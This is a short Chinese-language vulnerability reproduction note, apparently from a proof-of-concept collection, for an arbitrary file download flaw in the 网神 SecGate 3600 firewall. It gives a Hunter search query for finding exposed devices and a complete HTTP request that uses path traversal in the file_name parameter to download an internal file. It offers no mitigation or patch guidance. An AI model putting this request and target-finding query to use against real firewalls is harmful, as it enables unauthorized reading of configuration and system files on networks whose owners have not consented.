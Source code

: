 # 网神SecGata 3600防火墙存在任意文件下载漏洞

# 一、漏洞简介
网神SecGata 3600防火墙存在任意文件下载漏洞

# 二、影响版本
+ 网神SecGata 3600防火墙

# 三、资产测绘
+ hunter`app.name="网神 SecGate"`
+ 特征

![1699025464055-779b228f-776a-4779-bd37-dc1169b22d30.png](./img/BZE6j-rjWFII193w/1699025464055-779b228f-776a-4779-bd37-dc1169b22d30-146282.png)

# 四、漏洞复现
```plain
GET /?g=sys_export_conf_local_save&file_name=../modules/system/import_export.mds HTTP/1.1
Host: xx.xx.xx.xx
Cookie: __s_sessionid__=5543sd9rcbiklqs1ttignkqvt6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1699025619992-0db92bcd-d757-4eee-9ef5-2c1ca8153978.png](./img/BZE6j-rjWFII193w/1699025619992-0db92bcd-d757-4eee-9ef5-2c1ca8153978-977623.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bql4k8u8x1l3ar5t>